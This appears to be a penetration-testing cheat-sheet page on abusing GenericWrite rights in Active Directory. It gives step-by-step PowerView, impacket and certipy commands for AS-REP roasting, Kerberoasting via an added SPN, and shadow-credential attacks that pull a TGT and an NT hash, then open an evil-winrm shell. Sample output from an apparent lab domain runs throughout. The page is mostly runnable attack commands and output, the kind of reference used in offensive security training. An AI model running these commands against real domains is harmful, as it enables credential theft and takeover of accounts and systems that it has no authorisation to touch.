 ```yaml
---
title: "GenericWrite"
date: 2024-7-13
tags: ["Shadow Credentials", "Pass-The-Ticket", "Kerberoasting", "Genericwrite", "Powerview", "Asreproast", "Credential Dumping", "Ticket Granting Ticket", "Active Directory", "Windows"]
---
```


### Abuse #1 : Add UF_DONT_REQUIRE_PREAUTH bit to target user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Check target user

```console
Get-DomainUser <TARGET_USER> | ConvertFrom-UACValue
```

#### 3. Add UF_DONT_REQUIRE_PREAUTH bit

```console
Set-DomainObject -Identity <TARGET_USER> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### 4. AS-REP Roasting

```console
# In local linux machine
impacket-GetNPUsers '<DOMAIN>/<USER>' -no-pass -dc-ip <DC>
```

{{< /tabcontent >}}

---

### Abuse #2 : Kerberoasting by adding spn

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add a SPN

```console
# eg. MSSQLSvc/example.com:1433
setspn -a '<SERVICE>/<TARGET_DOMAIN>:<SERVICE_PORT>' '<DOMAIN>\<TARGET_USER>'
```

```console
# Check
Get-DomainUser '<TARGET_USER>' | Select serviceprincipalname
```

#### 4. Get SPN

```console
Get-DomainSPNTicket -SPN '<SERVICE>/<TARGET_DOMAIN>:<SERVICE_PORT>' -Credential $Cred
```

{{< /tabcontent >}}

---

### Abuse #3: Add shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Request a ticket

```console
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.absolute.htb && impacket-getTGT 'absolute.htb/m.lovegod'
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Saving ticket in m.lovegod.ccache
```

#### 2. Add shadow credentials

```console
export KRB5CCNAME=<USER>.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=m.lovegod.ccache
```

```console
# Pre-check (Optional)
certipy-ad find -username '<USER>@<DOMAIN>' -k -target <TARGET_DOMAIN>
```

```console {class="sample-code"}
$ certipy-ad find -username 'm.lovegod@absolute.htb' -k -target dc.absolute.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'absolute-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'absolute-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'absolute-DC-CA' via RRP
[*] Got CA configuration for 'absolute-DC-CA'
[*] Saved BloodHound data to '20240924045839_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240924045839_Certipy.txt'
[*] Saved JSON output to '20240924045839_Certipy.json'
```

```console
# Add shadow credentials
certipy-ad shadow auto -username '<USER>@<DOMAIN>' -account <TARGET_USER> -k -target <TARGET_DOMAIN>
```

```console {class="sample-code"}
$ certipy-ad shadow auto -username 'm.lovegod@absolute.htb' -account winrm_user -k -target dc.absolute.htb       
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '8b5c2efa-83aa-4f27-d9c7-bc95a9eb1fee'
[*] Adding Key Credential with device ID '8b5c2efa-83aa-4f27-d9c7-bc95a9eb1fee' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '8b5c2efa-83aa-4f27-d9c7-bc95a9eb1fee' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```

#### FIX: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

```console
# No really a fix, need to runas administrator
gpupdate /force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\Administrator\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

#### 3. Remote

```console
# Edit '/etc/krb5.conf' (All uppercase)
[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console {class="sample-code"}
[libdefaults]
    default_realm = ABSOLUTE.HTB

[realms]
    ABSOLUTE.HTB = {
        kdc = DC.ABSOLUTE.HTB:88
        admin_server = DC.ABSOLUTE.HTB
        default_domain = ABSOLUTE.HTB
    }
    
[domain_realm]
    .domain.internal = ABSOLUTE.HTB
    domain.internal = ABSOLUTE.HTB
```

<br>

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=winrm_user.ccache
```

```console
evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

```console {class="sample-code"}
$ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> 
```

{{< /tabcontent >}}
